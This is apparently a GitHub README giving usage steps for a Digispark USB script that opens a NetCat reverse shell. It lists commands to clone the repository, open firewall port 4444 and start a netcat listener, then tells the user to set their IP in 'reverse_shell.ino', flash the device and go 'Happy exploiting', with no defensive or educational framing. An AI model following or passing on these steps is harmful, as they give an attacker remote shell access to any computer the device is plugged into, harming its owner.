 ## How to use:

`git clone https://github.com/Samuel20354/Digispark_scripts.git`


`cd Digispark_scripts/Reverse Shell (NetCat)`


`sudo ufw allow 4444`


`nc -lp 4444`


Change the IP on line 17 to your local IP in `reverse_shell.ino` file, then upload to your digispark. Done! Happy exploiting.

